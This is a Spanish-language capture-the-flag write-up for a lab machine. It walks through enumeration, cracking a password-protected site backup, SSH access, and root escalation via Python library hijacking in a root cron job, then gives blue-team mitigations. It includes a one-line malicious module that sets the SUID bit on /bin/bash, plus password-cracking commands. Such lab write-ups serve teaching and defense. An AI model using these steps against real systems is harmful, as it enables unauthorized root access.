<h1 align="center">[Writeup] Shadow Automation - Reporte de Vulnerabilidad</h1>

**Dificultad:** Difícil (★★★★★☆☆☆)

**Categoría:** Web / Descubrimiento de Credenciales / Tareas Programadas / Escalada de Privilegios

**Autor:** SBZTNGNR

**Fecha**: 25-06-2026

**Plataforma**: WhoAmI-Labs.com

---

# Descripción
"Laboratorio pedagógico de Cron (Nivel Hard). Diseñado para auditar vectores prácticos en entornos reales. El reto involucra técnicas de: SHADOW AUTOMATION, requiriendo obtener acceso inicial y comprometer el sistema."

---

### 1. Fase de Reconocimiento y Enumeración

- **Escaneo de Puertos (`nmap`):**

- Lanzamiento de un escaneo general y luego uno dirigido con scripts de reconocimiento (`-sC`) y versiones (`-sV`).

Comando utilizado:
```
nmap -sV -sC -p- --min-rate 5000 172.17.0.2 -oN scan_shadow_automation.txt
```


- **Resultado:** Identificación de los puertos abiertos, destacando el puerto **80 (Apache 2.4.41 Ubuntu)** y el puerto **22 (SSH)**.

**1.2 Enumeración Web (Gobuster):**

- Fuzzing de directorios y archivos en el servidor web para encontrar paneles de administración, archivos ocultos o rutas de interés.

Comando Utilizado:
```
 gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirb/common.txt -x html,php,txt,bak,old,js,json,db
```


Dados los pocos o caso nulos resultados, se procedio a la inspección web, la página principal mostraba únicamente:

Sin embargo, al inspeccionar el código fuente se encontró el comentario:
```
<!-- TODO: Delete /site_backup.zip after migration -->
```
**Observación:**  
Gobuster no descubrió recursos relevantes, por lo que se decidió investigar directamente la ruta indicada por el comentario.

```
http://172.17.0.2/site_backup.zip
```

Por lo que al ingresar se obtuvo el archivo "site_backup.zip", sin embargo el archivo estaba protegido por contraseña, y sin mas pistas en el sitio web, se procedio a extraer el hash e intentar descifrarlo mediante "John The Ripper"



---
### 2. Obtención de Acceso inicial

Comando Utilizado:
```
Extracción de hash:
zip2john site_backup.zip > hash.txt

Ataque con John The Ripper:
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

Afortunadamente, se recupero la contraseña bastante rápido:
```
admin
```



```
developer:dev123
```

Visto que solo tenemos un puerto 80 sin login o acceso, se intento probar las credenciales en SSH. con resultados positivos:


---
### 3. Enumeración Local
En cuanto se obtuvo el acceso, se procedió a listar archivos, encontrando users.txt, con una cadena que sugería ser la bandera:


*al ver "Ingresa la ROOT flag...", era obvio que no era, pero había que intentar de todas maneras.

Dado el nombre del laboratorio, nos llama la atención que podría tratarse de escalar privilegios mediante tareas programadas, lo primero fue ir a registrar la carpeta /opt, que contenia un subdirectorio el cual contenia un archivo python llamado "health_check", siguiendo con el revisado de este:

Dado este archivo, revise /etc/crontab... (Si, lo hice al revés... cosas que pasan)


---
## 4. Análisis del script Python

Contenido relevante:

```
sys.path.append('/home/developer/.local/lib')
import my_logger
```

El script añadía una ruta controlada por el usuario al PATH de módulos de Python y posteriormente importaba un módulo desde dicha ubicación.

---

## 5. Identificación de la vulnerabilidad

Se comprobó que el directorio:

```
/home/developer/.local/lib
```

era escribible por el usuario `developer`.

```
drwxr-xr-x 1 developer developer 4096 Jan  8 05:46 /home/developer/.local/lib/
```

Esto permitía controlar el módulo:

```
my_logger.py
```

que sería cargado automáticamente por un proceso ejecutado como root.

### Vulnerabilidad identificada

**Python Library Hijacking**

---
## 6. Escalada de privilegios

Creación de un módulo malicioso:

```
echo $'import os\n\nos.system("chmod u+s /bin/bash")' > /home/developer/.local/lib/my_logger.py && chmod +x /home/developer/.local/lib/my_logger.py
```

Guardado como:

```
/home/developer/.local/lib/my_logger.py
```

Posteriormente se esperó la ejecución del cron.

### --Verificación

```
watch -n 1 ls -la /bin/bash
```

Cuando apareció:

```
-rwsr-xr-x
```


se confirmó la ejecución exitosa del payload.

---
## 7. Obtención de root

Ejecución:

```
bash -p
```

Resultado:

```
bash-5.0#
```



---

## 8. Captura de la flag

Lectura de la root flag:

```
La flag se encontraba en la carpeta /root/flag.txt
CTF{H1j4ck1ng_Pyth0n_L1br4r13s_FTW}
```

Ya con esto, y, ahora si contando de que es la verdadera bandera, se da el laboratorio como acabado:


---
---
---
---
---
### Consideraciones:
### Verificación de binarios SUID

Durante la enumeración del sistema se localizaron los binarios con el bit SUID activo:

```
find / -perm -4000 2>/dev/null
```

Entre ellos destacaba el binario:

```
/usr/bin/passwd
```

Al consultar GTFOBins se observó que `passwd` puede resultar interesante en determinados escenarios de escalada de privilegios, por lo que se realizaron pruebas para verificar si existía alguna configuración insegura.

Prueba realizada:

```
echo -e 'x\nx' | passwd
```

Resultado:

```
Changing password for developer.Current password:passwd: Authentication token manipulation errorpasswd: password unchanged
```

### Análisis

Aunque el binario posee el bit SUID, la prueba no produjo una escalada de privilegios.

El mensaje:

```
Authentication token manipulation error
```

indica que `passwd` no pudo modificar la información de autenticación del sistema. Esto puede deberse a restricciones del entorno, configuración específica del laboratorio o a que el binario está funcionando de forma correcta y no presenta una vía de abuso explotable para el usuario actual.

### Conclusión

El binario SUID `passwd` fue identificado y analizado, pero se descartó como vector de escalada de privilegios al no proporcionar una vía práctica para obtener privilegios elevados.

*Nota:
La presencia de un binario SUID no implica necesariamente una vulnerabilidad. Muchos binarios legítimos del sistema, como `passwd`, requieren SUID para realizar funciones administrativas controladas. Por ello, cada hallazgo debe validarse individualmente antes de considerarse un vector real de escalada.*

---
---

## Recomendaciones (Blue Team)
# --Mitigaciones - Acceso Inicial

## Exposición de archivos de respaldo

El servidor web contenía un comentario HTML que revelaba la existencia de:

```
/site_backup.zip
```

Este archivo era accesible directamente desde el navegador y contenía información sensible utilizada posteriormente para obtener acceso al sistema.
### Riesgo

- Divulgación de información sensible.
- Exposición de credenciales.
- Obtención de acceso inicial al sistema.
### Recomendaciones

- Eliminar archivos de respaldo una vez finalizadas las migraciones.
- Almacenar backups fuera del DocumentRoot del servidor web.
- Revisar periódicamente contenido accesible desde HTTP.
- Evitar dejar referencias a recursos sensibles en comentarios HTML.

Ejemplo:

```
<!-- TODO: Delete /site_backup.zip after migration -->
```

Los comentarios del lado cliente son visibles para cualquier usuario y pueden revelar información útil para un atacante.

---
# Recomendaciones Para Mayor Protección En Caso de Acceso No Autorizado

## 1. Evitar directorios controlados por usuarios en `sys.path`

La vulnerabilidad principal radica en que el script ejecutado por root añadía manualmente una ruta controlada por el usuario:

```
sys.path.append('/home/developer/.local/lib')
```

Esto permitía que un usuario sin privilegios modificara módulos cargados posteriormente por un proceso privilegiado.

### Recomendación

Almacenar los módulos Python utilizados por procesos privilegiados únicamente en rutas protegidas, por ejemplo:

```
/usr/lib/python3//usr/local/lib/python3.x/
```

---

## 2. Restringir permisos de escritura

El directorio:

```
/home/developer/.local/lib
```

era modificable por el usuario `developer`.

### Recomendación

Los directorios desde los cuales un proceso ejecutado como root carga código no deberían ser escribibles por usuarios no privilegiados.

Verificación recomendada:

```
ls -ld /ruta/del/modulo
```

---

## 3. Utilizar rutas absolutas y controladas

Cuando sea posible, importar módulos desde ubicaciones conocidas y protegidas en lugar de modificar dinámicamente el entorno de ejecución.

Ejemplo inseguro:

```
sys.path.append('/home/developer/.local/lib')import my_logger
```

Ejemplo más seguro:

```
from secure_logging.my_logger import log
```

---

## 4. Principio de mínimo privilegio

El script de monitorización se ejecutaba como root aunque su funcionalidad consistía únicamente en registrar mensajes de estado.

### Recomendación

Ejecutar este tipo de tareas mediante usuarios de servicio dedicados con los permisos mínimos necesarios.

Por ejemplo:

```
healthcheckmonitorlogger
```

en lugar de root.

---

## 5. Auditoría periódica de tareas programadas

Las tareas cron deben revisarse periódicamente para identificar:

- Scripts ejecutados como root.
- Dependencias externas.
- Rutas controladas por usuarios.
- Archivos modificables por usuarios no privilegiados.
